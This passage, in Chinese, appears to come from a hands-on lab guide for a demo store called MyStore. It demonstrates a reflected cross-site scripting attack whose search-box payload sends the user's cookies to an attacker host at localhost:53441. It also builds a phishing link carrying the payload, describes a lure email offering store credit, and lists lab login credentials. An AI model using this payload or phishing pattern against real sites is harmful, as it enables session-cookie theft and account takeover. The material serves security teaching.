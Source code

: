     Search TextBox 輸入 **');location.href='http://localhost:53441/cookies/?c='+encodeURIComponent(document.cookie);//** ，按下 Enter 後，會將 MyStore 的 Cookie 送到 Attacker.MyStore (localhost:53441) 去

    所以釣魚信的 URL 為 **<http://localhost:44375/?searchTerm=');location.href='http://localhost:53441/cookies/?c='%2BencodeURIComponent(document.cookie);//>**

6. 開啟 Allfiles\Phishing.eml ，可以讓會員領到 5,000 元購物金。

    ![Phishing Email](images/s2-09.png)

7. 開啟 Chrome 在 Url 中輸入 **<http://localhost:44375/Account/Login>**

8. 畫面輸入

    | 欄位 | 值  |
    |---|---|
    | Email | rm@gss.com.tw |
    | Password | 0002 |
    | Remember me | 不勾選 |

9. 按下 「**Login**」 Button

10. 點選 Mail 中的 Link ，可以發現 網頁切到 <http://localhost:53441/cookies>
